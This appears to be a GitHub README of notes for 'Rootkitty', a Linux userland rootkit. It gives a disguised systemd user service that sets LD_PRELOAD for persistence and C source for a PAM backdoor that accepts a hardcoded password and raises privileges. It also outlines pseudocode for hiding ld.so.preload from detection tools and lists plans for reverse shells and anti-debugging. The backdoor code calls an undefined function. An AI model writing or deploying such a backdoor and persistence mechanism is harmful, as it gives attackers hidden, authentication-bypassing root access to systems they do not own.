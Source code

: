 # Rootkitty
## Persistence Using SystemD services

place file here:
`~/.config/systemd/user/<your_filename>.service`

should look like this:
```rootkatz.service
[Unit]
Description= something, totally not a rootkit[Service]
ExecStart=/usr/bin/bash -c 'export LD_PRELOAD=<path_to_shared_lib>'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

enable service like so:
`systemctl --user enable rootkatz.service`

this depends on the user being logged in.
to do this at boot (for servers, since they dont have users logged in) root must run:
`systemctl --enable-linger <username>` 
obviously since we dont have root access we cannot use this but 
we can check by `ls /var/lib/systemd/linger/` 
if lingering is available there is a empty file with username on it 

## cool stuff for libraries
`static void __attribute__((constructor)) function(args)` 
gets loaded and executed before evrythig

## PAM Backdoor 
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <string.h>
#define PAM_EXTERN extern

int elevation(){
    uid_t UID = getuid();
    gid_t GID = getgid();

    if (seteuid(0) ==- 1){
        return -1;
    }
    if (setegid(0)==-1){
        seteuid(UID);
        return -1;
    }
    return 0;
}

PAM_EXTERN int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_authenticate)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_authenticate = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    
    const char* passwd;
    pam_get_item(pamh, PAM_AUTHTOK, (const void**)&passwd);

    if(passwd != NULL && strcmp(passwd, "backdoorpassword") == 0) {
        return PAM_SUCCESS;
    }

    return og_pam_sm_authenticate(pamh, flags, argc, argv);
}

PAM_EXTERN int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_setcred)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_setcred = dlsym(RTLD_NEXT, "pam_sm_setcred");
    if (is_backdoor_used(pamh)){
        if(elevation()==0){
return PAM_SUCCESS;
        }
    }
    return og_pam_sm_setcred(pamh, flags, argc, argv);
}
// on exit
int drop_privileges(uid_t original_uid, gid_t original_gid) {
    if (setegid(original_gid)==-1){
        return -1;
    }
  if (seteuid(original_uid) == -1) {
        return -1;
    }
    return 0;
}
```
## Bypassing LDD, LD_LINUX, UNHIDE the lazy way 
hook execve:
if path = path of ldd or whatever
    save old uid 
    decrypt strings
    set uid to 0
    rename ld.so.preload to .ld.so.preload
    wait a lil bit
    undo


## more ideas
- anti debug
- PAM backdoor 
- persistence over systemd service
- reverse shell ipv4 and v6 
- intercept common cryptographic functions
